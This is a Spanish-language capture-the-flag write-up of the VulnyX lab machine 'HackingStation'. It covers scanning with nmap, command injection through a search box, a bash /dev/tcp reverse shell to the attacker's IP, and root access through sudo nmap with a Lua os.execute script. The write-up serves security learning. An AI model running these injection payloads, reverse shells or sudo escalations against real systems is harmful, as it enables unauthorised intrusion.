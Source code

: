 # WRITEUP - HACKINGSTATTION - VULNYX #
![image](https://github.com/AlexGis99/Writeups/assets/82893511/34eb39b4-93b9-49b7-b8e5-30dc668567f9)
### Recon/Scanning network: ###
Empezamos identificando el activo víctima a explotar dentro de nuestra red con un reconocimiento completo de ella:
```shell
$ netdiscover -r 10.0.2.0/24
```
~~Meter imagen del resultado~~  
Identificamos la ip de nuestra víctima, ahora podemos empezar a escanear el activo para identificar posibles vectores de entrada.  
Ejecutamos un escaneo con nmap en el que escaneamos todos los 65535 puertos (-p-), que nos identifique todos aquellos puertos abiertos (--open), con un ratio mínimo de 5000 paquetes por segundo (--min-rate 5000), sin resolución DNS (-n) y sin host discovery (-Pn). [First scan](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/nmap/first-scan).
```console
$ nmap -p- --open --min-rate 5000 -n -Pn 10.0.2.6
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00059s latency).
Not shown: 44294 closed tcp ports (reset), 21240 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

# Nmap done at Thu Apr 18 13:31:48 2024 -- 1 IP address (1 host up) scanned in 18.70 seconds
```
Observamos que solo existe un puerto abierto con el escaneo realizado, por lo que vamos a ejecutar un escaneo sobre servicios y con unos scripts por defecto para el análisis. [Scan services](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/nmap/scan-services).
```shell
$ nmap -p80 -sVC 10.0.2.6 
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00069s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 13:33:06 2024 -- 1 IP address (1 host up) scanned in 6.94 seconds
```
### Enumeration ###
Como podemos comprobar, tiene un servicio HTTP con un apache 2.4.57, el cuál si buscamos un poco de información, podemos ver que está relacionado con el CVE-2023-31122, el cuál nos permite ejecutar un RCE (Remote Command Execution), no indagaremos más por ahora sobre está vulnerabilidad pero está bien tenerla en mente.  
Teniendo este servicio web, podemos dejar un dirbuster ejecutando mientras nosotros analizamos de forma manual el servicio web. [Dirbuster](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/enumeration/dirbuster_80).
```shell
$ dirb http://10.0.2.6:80
```
Dejamos la ejecución de dirbuster corriendo y mientras vamos a echar un vistazo al servicio web. Al entrar con el navegador, podemos ver la página principal. Este servicio web parece tener la funcionalidad de ser un repositorio de exploits en el que se pueden buscar mediante el cuadro de texto abajo. Al ver este cuadro de texto habilitado, podemos empezar a probar cualquier Injección de Comandos para ver si es vulnerable o no.   
~~Imagen página web~~  
### Exploitation ###
Antes de empezar a inyectar comandos, podemos buscar por ejemplo qué vulnerabilidades tiene apache 2.4.57 y ver el funcionamiento del servicio.  
~~Imagen búsqueda apache~~  
Identificamos que el servicio ejecuta un archivo php para hacer la búsqueda llamado queryExploit.php. Gracias a esto, ya sabemos que el servicio web usa por debajo php y nos sirve para hacer inyecciones en php o relacionado. Podemos probar a ejecutar dentro del cuadro de búsqueda de la página principal comandos como:
- PHP:
	- ";exec("ls")
 	- ';exec("ls")
  	- ");exec("ls")
  	- ');exec("ls")
- SQL:
	- '; select * --
- JS:
	- ;alert("Hacked")
 	- ";alert("Hacked")
  	- ';alert("Hacked")
  	- ");alert("Hacked")
  	- ');alert("hacked")

Pero ninguno de estos intentos nos va a funcionar. Si analizamos un poco la respuesta del servidor, observamos que nos referencia un path en el que se encuentra el posible repositorio en el que se apoya el servicio web, siendo este path: */opt/snap/core22/searchsploit/298/*. Esto nos puede dar una pista de que el comando que se está ejecutando al buscar el exploit dentro del repositorio, es un comando de sistema y al saber que estamos aparentemente ante un sistema Debian (Linux) por el escaneo de servicios realizado anteriormete, podemos probar a ejecutar comandos de sistema. Por ejemplo vamos a ejecutar un *whoami* para ver si esto es posible:  
~~Imagen búsqueda~~  
Al ejecutar esto, vemos que al final de la página, nos devuelve "hacker". Podemos confirmar que este es el método que está utilizando el servicio por dentro y acabamos de ejecutar un comando de forma remota en el sistema.  
~~Imagen resultado~~
### Gaining access ###
Una vez comprobado esto, vamos a enviarnos una reverse shell para conseguir conectarnos con una terminal y poder seguir con la intrusión de forma más sencilla y cómoda. Para esto dejamos nuestra máquina a la escucha por un puerto aleatorio, por ejemplo, 443, a la espera de una conexión.
```shell
$ nc -nlvp 443
```
Mientras, hacemos una búsqueda ejecutando una reverse shell sobre el servicio web con: *;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'* y ejecutamos.  
Acabamos de recibir una shell con el usuario hacker sobre la máquina víctima.  
~~Imagen intrusion~~  
Tenemos una shell, pero debemos realizar un tratamiento adecuado de la shell para que nos resulte más cómodo:
```shell
$ script /dev/null -c bash
$ ctrl+z
$ stty raw -echo;fg
$ reset xterm
$ export TERM=xterm
$ export SHELL=bash
```
Recibimos una shell tratada. Una vez hecho esto, podemos buscar la flag del usuario hacker, la cual estará en su directorio home: */home/hacker/user.txt*.  
~~imagen user flag~~
### Privilege escalation ###
Una vez tenemos el accesso con un usuario sin privilegios aparentes, toca escalar a root para obtener el control total de la máquina. Empezamos visualizando los permisos propios del usuario, sus grupos, si tiene un crontab asociado y posibles archivos con permisos SUID/GUID que nos permitan escalar, pero no vemos nada aparentemente. Vamos a listar si el usuario tiene algún permiso a nivel de *sudo* y vemos que puede ejecutar como root un binario */usr/bin/nmap*.  
```shell
$ sudo -l
```
~~Imagen captura sudo -l~~  
Probamos a ejecutar el comando y vemos que tiene un funcionamiento como nmap. Podemos de hecho, realizar un escaneo a localhost y poder ver servicios levantados solo de forma interna.  
```shell
$ sudo nmap 127.0.0.1
```
~~nmap 127.0.0.1~~  
Observamos que nos aparece ssh abierto. Este servicio aunque salga abierto, no es accesible de forma externa a la máquina, tal y como vimos en los primeros escaneos realizados de forma remota. Esto simplemente es una curiosidad, no nos ayudará a escalar o comprometer más la máquina.  
Si recordamos, nmap se puede implementar con scripts, por lo que podemos intentar ejecutar algún script propio mediante nmap y que nos devuelva una shell como root. Esto debido a que como podemos ejecutar nmap como root, si conseguimos que nmap ejecute una shell mediante un script, nos devolverá una shell con el usuario que ejecuta nmap, root. Haciendo una búsqueda para ver cómo crear scripts *.lua* propios y ejecutarlos con nmap, nos topamos con una web llamada **GTFOBins**, la cual es un repositorio de diferentes binarios a ejecutar en entornos en los que haya pocos recursos.  
~~Imagen GFTObins~~  
Tenemos una entrada para nmap y bajando, encontramos una sección para ejecutar una shell mediante nmap. Hay dos formas:
- nmap --interactive: Solo entre las versiones 2.02 a 5.21.
- *Input echo is disabled*:
Debido a que nuestra versión es 7.x, nos queda probar la segunda opción. Esta opción consiste en crear un temporal que contenga la sentencia *os.execute()* que nos permite ejecutar comandos del sistema, de esta forma, podemos intentar ejecutar una shell. 
```shell
$ BASH=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $BASH
$ sudo nmap --script=$BASH
```
~~Captura ejecución nmap con sudo y obtencion de root~~  
Hemos conseguido obtener una shell como root. Una vez hecho esto, tenemos completo control del sistema. Nos spawnea una shell en la que no nos aparece lo que escribimos, para recibir una shell en condiciones podríamos ejecutarnos una reverse shell y captarla como hemos hecho en pasos anteriores, activar de forma externa ssh y entrar mediante una clave pública... etc. Nosotros lo que vamos a obtener ahora es la flag de root, la cual se encuentra en */root/root.txt*.  
~~Imagen obtencion root.txt~~  
### Adicional ###
Si recordáis, en la parte de enumeración del activo, habíamos ejecutado un dirbuster el cual no nos ha hecho falta para poder comprometer el objetivo. De todas formas, este dirbuster nos identifica una ruta en el servicio web que nos lleva a una librerñia de jQuery. En principio, no he encontrado nada interesante en esa ruta: *http://10.0.2.6:80/javascript/jQwery/jQuery*.
